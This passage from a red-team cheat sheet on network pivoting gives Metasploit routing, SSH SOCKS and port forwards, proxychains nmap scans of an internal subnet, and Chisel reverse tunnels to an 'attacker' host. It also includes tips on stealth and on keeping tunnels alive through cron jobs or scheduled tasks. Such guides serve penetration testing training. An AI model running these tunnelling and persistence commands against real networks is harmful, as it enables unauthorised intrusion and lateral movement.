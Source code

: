 Example:

```bash
msf> route add 10.10.0.0 255.255.255.0 1
msf> use auxiliary/scanner/portscan/tcp
```

***

### XI. ⚔️ Real-World Workflow Example

```bash
# 1. Establish foothold
ssh user@pivot1

# 2. Start SOCKS proxy
ssh -D 1080 user@pivot1

# 3. Configure ProxyChains
echo "socks5 127.0.0.1 1080" >> /etc/proxychains.conf

# 4. Scan internal network
proxychains nmap -sT -Pn 10.10.0.0/24

# 5. Deploy Chisel for deeper pivot
chisel server -p 8000 --reverse
chisel client 10.10.14.2:8000 R:1080:socks
```

***

### XII. 🧠 Pro Tips & Red Team Tricks

✅ **Speed vs. Stealth**

* Use `-T4` cautiously when scanning via proxychains — slower = stealthier.
* Compress tunnels with SSH `-C` for bandwidth-limited pivots.

✅ **Combine Layers**

* SOCKS + SSH + Chisel for multi-hop chains.
* Use proxychains to send Burp Suite, SQLMap, or even Firefox traffic through your tunnels.

✅ **Persistence in Tunnels**

* Launch Chisel or SSH tunnels as cron jobs or Windows tasks for stable post-exploitation channels.

✅ **Operational Awareness**

* Always map internal subnets before pivoting again.
* Keep a **pivot diagram** for tracking chain depth and SOCKS ports.

***

### XIII. 🧩 Quick Reference Table

| Goal                | Tool / Command                                |
| ------------------- | --------------------------------------------- |
| Local Port Forward  | `ssh -L 8080:127.0.0.1:80 user@pivot`         |
| Remote Port Forward | `ssh -R 8080:127.0.0.1:80 user@attacker`      |
| SOCKS Proxy         | `ssh -D 1080 user@pivot`                      |
| Multi-Hop SSH       | `ssh -J user@pivot1 user@pivot2`              |
| Chisel Reverse      | `chisel client attacker:8000 R:1080:socks`    |
| ProxyChains Scan    | `proxychains nmap -sT -Pn 10.10.0.0/24`       |